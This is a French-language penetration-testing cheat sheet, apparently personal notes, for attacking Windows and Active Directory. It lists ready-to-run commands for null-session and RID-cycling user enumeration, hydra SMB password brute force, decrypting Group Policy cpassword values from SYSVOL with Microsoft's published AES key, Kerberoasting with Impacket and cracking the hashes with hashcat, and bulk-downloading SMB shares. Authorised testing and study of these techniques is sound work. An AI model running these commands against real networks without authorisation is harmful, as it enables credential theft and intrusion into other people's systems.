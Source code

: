 # Windows

- [PowerShell](#powershell)
- [Enumération](#enumération)
- [Mots de passe](#mots-de-passe)
  - [Mot de passe dans SYSVOL](#mot-de-passe-dans-sysvol)
  - [Kerberoast](#kerberoast)
- [Partage](#partage)
- [Liens utiles](#liens-utiles)

---

> *Dans le doute reboot*, Rowan Atkinson

## PowerShell

```powershell
# afficher en arborescence
tree /f

# lien symbolique
new-item -itemtype symboliclink -path . -name settings.json -value "C:\Users\Kamil\OneDrive\Windows Terminal\settings.json"
```

## Enumération

Pour obtenir des informations sur un domaine :
```bash
# null session
enum4linux -a 192.168.10.1 > enum1.txt
# énumérer les utilisateurs avec un RID cycling sur un intervalle plus grand
enum4linux -U -R 500-2000 192.168.10.1 | grep -v unknown > enum2.txt
# avec des credentials
enum4linux -u test -p test -a 192.168.10.1 > enum_as_test.txt
```

## Mots de passe

Pour se connecter en local et pas sur le domaine : `.\username`

Bruteforce sur le réseau (pas du tout discret) :
```bash
hydra -L usernames.txt -P rockyou.txt 192.168.10.1 smb
```

### Mot de passe dans SYSVOL

Pour déchiffrer le cpassword d'un compte défini dans une GPO sur un partage :
- utiliser la recette [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'Hex','string':'4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b'%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D))
- ou [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt) si besoin offline

Clé AES256 donnée gentiement par [Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) :
```bash
# AES256 cipher key
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8 f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
# Initialisation Vector
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Source : https://adsecurity.org/?p=2288

### Kerberoast

Avec [Impacket](https://github.com/SecureAuthCorp/impacket) :
```bash
python3 ./GetUserSPNs.py -request -dc-ip 192.168.10.1 MIDGAR.LAN/scarlet:password -outputfile kerberoast.hash
```

Pour casser ces hash :
```bash
hashcat -m 13100 -a 0 kerberoast.hash rockyou.txt -o output.txt
```

## Partage

Pour récupérer tous les fichiers d'un partage, et les étudier en local :
```powershell
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

## Liens utiles

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976
